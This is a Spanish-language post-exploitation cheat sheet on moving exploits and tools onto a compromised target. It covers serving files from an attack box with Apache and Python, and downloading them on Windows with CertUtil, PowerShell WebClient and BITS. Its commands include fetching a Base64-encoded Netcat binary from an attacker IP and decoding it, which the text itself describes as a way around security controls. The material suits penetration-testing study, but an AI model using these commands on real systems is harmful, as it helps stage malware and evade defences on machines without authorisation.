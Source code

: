 **Transfiriendo exploit o archivos al target (Post explotation)**

**Transferencias de archivos de Linux**

**Usando Apache**

Copiamos nuestro exploit a /var/www/html en nuestra maquina linux

El siguiente paso es iniciar el servidor web Apache para que podamos descargar el archivo exploit al host comprometido:

>service apache2 start

Ahora podemos acceder al servidor web Apache desde el navegador web (o wget) usando la siguiente URL:

http://[IP Webserver]

Después de servir el último archivo, asegúrese de detener el servidor Apache en el cuadro de ataque con el siguiente comando:

>service apache2 stop

**Usando Python**

Una forma más rápida y segura de servir archivos es con Python SimpleHTTPServer es un módulo de Python que le permite usar un solo comando para crear un servidor web para servir archivos y páginas web.

Para iniciar Python SimpleHTTPServer, ejecute el siguiente comando desde el directorio que contiene los archivos que desea servir :

>python -m SimpleHTTPServer [Optional: port]

En Python 3, el comando tiene el siguiente aspecto:

>python3 -m http.server [Optional: port]

**Transferencias de archivos de Windows**

Las transferencias de archivos en máquinas Windows son un poco más difíciles de lograr desde la línea de comandos, ya que los sistemas Windows no tienen una herramienta nativa como wget.

**CertUtil.exe**

Windows tiene un programa integrado de línea de comandos llamado CertUtil.exe, que se instala como parte de los Servicios de certificados y se puede usar para administrar certificados en Windows.
Certutil también es conocido como un binario Living Off Land (LOL) que es una herramienta de sistema confiable y preinstalada con una funcionalidad inesperada 'extra', como la descarga de archivos. Una característica interesante de certutil es la opción de descargar un certificado remoto desde una URL remota y guardarlo en el sistema de archivos local.

Con el siguiente comando podemos descargar un archivo especificando una URL de descarga y guardarlo en el sistema de archivos local especificando un nombre de archivo como argumento final:

>certutil -urlcache -split -f [URL] [Filename.Extension]

Cargas útiles codificadas en base64
Otra buena característica de CertUtil.exe que puede ayudar a evitar los controles de seguridad es la opción de decodificar archivos codificados en Base64 en el sistema de archivos.

Primero, necesitamos codificar en Base64 el ejecutable de Netcat. El comando para codificar archivos Base64 con CertUtil.exe tiene el siguiente aspecto:
>certutil.exe -encode [inputFileName] [encodedOutputFileName]

El siguiente paso es transferir el archivo de texto al destino y decodificarlo nuevamente en un ejecutable. Podemos hacer esto con los siguientes comandos:
>certutil.exe -urlcache -split -f "http://[Attack box IP]/nc.txt" nc.txt

Y el siguiente comando decodifica el binario codificado en Base64 en un archivo ejecutable:
>certutil.exe -decode nc.txt nc.exe

**Descargas de PowerShell: System.Net.WebClient**

En un script:

>echo $storageDir = $pwd > httpdownload.ps1
>echo $webclient = New-Object System.Net.WebClient >> httpdownload.ps1
>echo $webclient.DownloadFile("[Download URL]","[File Name]") >> httpdownload.ps1

Una linea
>System.Net.WebClient.DownloadFile("[Download URL]","[File Name]")

**Descargas de PowerShell: Start-BitsTransfer**
Otra forma de descargar archivos con PowerShell es mediante el Servicio de transferencia inteligente en segundo plano (BITS).

>powershell Import-Module BitsTransfer;Start-BitsTransfer -Source http://[IP Attack box]/nc.exe -Destination C:\
